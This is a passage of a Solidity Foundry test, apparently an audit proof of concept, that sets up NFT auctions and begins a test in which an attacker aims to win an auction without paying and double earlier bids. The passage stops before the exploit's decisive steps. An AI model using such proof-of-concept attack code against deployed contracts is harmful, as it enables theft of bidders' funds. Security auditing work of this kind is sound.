 ```solidity
057:         address(0));
058:         minter.setCollectionPhases(2, 1000, 0, 1000, 700000, 0);//Set allowliststarttime to public sale start time to pass check

059:         gencore.addMinterContract(address(minter));
060:         gencore.addRandomizer(2, address(randomizer));
061:     }
062:
063:     function testUsersParticipateInAuction(uint256 tokenId) public {
064:         vm.deal(alice, 1000000000000000000);//Give alice 1 ETH for bid
065:         vm.deal(bob, 2000000000000000000);//Give bob 2 ETH for bid
066:         vm.deal(charlie, 3000000000000000000);//Give charlie 3 ETH for bid
067:
068:         bytes memory selector = abi.encodeWithSignature("participateToAuction(uint256)", tokenId);
069:         
070:         vm.prank(alice);
071:         (bool success1,) = address(auctionContract).call{value: 1000000000000000000}(selector);
072:
073:         vm.prank(bob);
074:         (bool success2,) = address(auctionContract).call{value: 2000000000000000000}(selector);
075:
076:         vm.prank(charlie);
077:         (bool success3,) = address(auctionContract).call{value: 3000000000000000000}(selector);
078:     }
079:
080:     function testAttackerCanWinAuctionWithoutProvidingETHAndDoubleHisPreviousBids() public {
081:         testSetUpCollection1();
082:         testSetUpCollection2();
083:         vm.warp(1000); //Start public phase on Azuki collection
084:         //Start both Azuki and Punks Auction (running in parallel)
085:         minter.mintAndAuction(teamsTrustedAddress, "", 0, 1, 10000); //(Auction ends at 10000s)
086:         minter.mintAndAuction(teamsTrustedAddress, "", 0, 2, 20000); //(Auction ends at 20000s)
087:
088:         //Give approval to this contract to transfer the auctioned token to the winner when winner calls claimAuction()
089:         vm.prank(teamsTrustedAddress);
090:         gencore.setApprovalForAll(address(auctionContract), true);
091:         
092:         //Attacker participates in Azuki auction
093:         vm.deal(attacker, 900000000000000000); //Attacker places 0.9 ETH bid
094:         vm.prank(attacker);
095:         bytes memory selector = abi.encodeWithSignature("participateToAuction(uint256)", 10000000000);
096:         (bool success1,) = address(auctionContract).call{value: 900000000000000000}(selector);
097:
098:
099:         testUsersParticipateInAuction(10000000000); //Alice, Bob, Charlie place bids of 1ETH, 2ETH and 3ETH respectively in Azuki auction to challenge each other
100:         testUsersParticipateInAuction(20000000000); //They also place similar bids in the Punks auction running in parallel
101:
102:         //Attacker decides to participate in Azuki auction again
103:         vm.deal(attacker, 5000000000000000000); //Attacker places 5 ETH bid
104:         vm.prank(attacker); //Attacker participates in Azuki auction
105:         (bool success2,) = address(auctionContract).call{value: 5000000000000000000}(selector);
106:
```